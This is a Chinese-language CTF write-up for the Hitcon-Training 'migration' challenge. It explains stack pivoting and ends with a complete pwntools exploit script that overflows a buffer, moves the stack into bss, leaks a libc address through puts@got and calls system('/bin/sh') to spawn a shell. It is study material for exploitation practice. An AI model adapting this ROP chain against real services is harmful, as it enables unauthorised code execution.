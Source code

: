 ```yaml
---
title: migration
categories:
- Hitcon-Training
---
```

# migration

## 前言

中期忙完之后抽两天刷题，hitcon-training的题，主要考察stack pivoting

## 程序逻辑

可以溢出的长度为0x14字节，且开头有检查，要么改掉count，要么只能挑一次Main。

![main](./1.jpg)

## 漏洞利用

最开始的想法是构造bss_addr+puts_plt+call_setvbuf_addr+puts_got泄露出返回地址，之后到call_setvbuf继续执行，ebp为bss_addr作为假的栈，在这个栈里read后再执行system函数，但是这样会报invalid address的错误，此路不通，选择更复杂的栈帧构造。

首先了解一下函数调用的规则，按照刚才的结构，溢出之后的对应是main_ebp+return_addr+fake_bep+arg1+arg2+...+code..这里的调用顺序是return_addr(args)->fake_ebp(此时的ebp为main_ebp)->code。假如code里继续调用别的函数，其规则跟上面一致，不妨设code=call_func+code_ebp+func_args，那么最终的调用情况是return_addr(args)->fake_ebp(ebp为main_ebp)->call_func(args)->code_ebp。这里还有一张图辅助了解pivoting的。

![pivot](./stackPivot.jpg)

最终的利用思路是找几个gadgets，第一次溢出的时候往buf2里写入数据，并最终跳转到buf2去执行刚才写入的数据，这里设计的结构是：
buf2+read_plt+leave_ret_addr+0+buf2+0x100，执行的时候buf2作为ebp，调用read(0,buf2,0x100),调用结束后leave 使得esp = buf2，ret 使得去执行buf2+4的代码。

buf2写入的数据用来泄露libc地址，设计的结构是：
buf + puts_plt + pop_ebx_ret + puts_got + read_plt + leave_ret_addr + 0 + buf + 0x100
执行的时候buf作为ebp，调用puts(puts@got)泄露出地址，之后的pop_ebx_ret把栈里的puts_got弹出，ret到read继续执行read(0,buf,0x100)，结束之后leave_ret使得函数跳转到buf+4执行代码

buf读取的内容包括写入'/bin/sh\x00'和执行system。设计的结构为：
buf2 + read_plt + pop_esi_edi_ebp + 0 + buf2 + 0x100 + system_addr + 'b'*4 + buf2，执行过程中先read(0,buf2,0x100)读取'/bin/sh\x00'到buf2，之后pop_esi_edi_ebp把0、buf2、0x100弹出，此时esp为system_addr，执行system("/bin/sh\x00")拿到Shell

# exp.py

```py

#coding=utf-8
from time import sleep
from pwn import *
debug = 1
context.update(arch='i386',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
p = process('./migration')
elf = ELF('./migration')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
if debug:
    gdb.attach(p,'b *0x8048505')

def exp():
    puts_plt = elf.plt['puts']
    puts_got = elf.got['puts']
    read_plt = elf.plt['read']
    buf = 0x0804a70c
    buf2 = 0x0804a60c
    pop_ebp = 0x0804856b
    pop_ebx = 0x0804836d
    ret = 0x08048356
    pop_esi_edi_ebp = 0x08048569
    leave = 0x08048418

    p.recvuntil('Try your best :\n')
    #stack migration to buf2
    payload = 'a'*0x28 + p32(buf2)
    payload += p32(read_plt) + p32(leave) + p32(0) + p32(buf2) + p32(0x100)
    p.send(payload)
    sleep(0.1)
    #write to buf and leak libc
    payload = p32(buf) + p32(puts_plt) + p32(pop_ebx) + p32(puts_got)
    payload += p32(read_plt) + p32(leave) + p32(0) + p32(buf) + p32(0x100)
    p.send(payload)
    libc_base = u32(p.recv(4)) - libc.symbols['puts']
    log.success('libc base => ' + hex(libc_base))
    sleep(0.1)
    system_addr = libc.symbols['system'] + libc_base
    #jmp to get shell
    payload = p32(buf2) + p32(read_plt) + p32(pop_esi_edi_ebp) + p32(0) + p32(buf2) + p32(0x100)
    payload += p32(system_addr) + 'b'*4 + p32(buf2)
    p.send(payload)
    sleep(0.1)
    p.send('/bin/sh\x00')

    p.interactive()

exp()

```
